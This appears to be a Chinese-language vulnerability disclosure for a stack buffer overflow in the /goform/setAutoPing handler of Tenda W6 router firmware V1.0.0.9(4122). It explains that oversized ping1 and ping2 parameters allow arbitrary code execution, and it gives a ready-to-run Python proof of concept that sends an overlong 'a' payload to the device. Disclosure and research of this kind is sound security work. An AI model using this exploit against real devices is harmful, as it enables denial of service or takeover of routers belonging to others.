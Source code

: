 # Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/setAutoPing存在栈溢出漏洞，攻击者可以构建ping1参数和ping2参数进行栈溢出攻击。攻击者利用该漏洞执行任意代码执行。 

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/setAutoPing

![image-20220708124615487](pic/image-20220708124615487.png)

## 漏洞利用



![image-20220708125744014](pic/image-20220708125744014.png)



![image-20220708125935938](pic/image-20220708125935938.png)

## Exp

```python
import requests
from pwn import *
burp0_url = "http://192.168.5.1/goform/setAutoPing"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="linkEn=1"
data1+='&ping1='+'a'*0x84
data1+='&ping2=baaaaa'
requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
[展示过程请看视频](./video/1.mp4)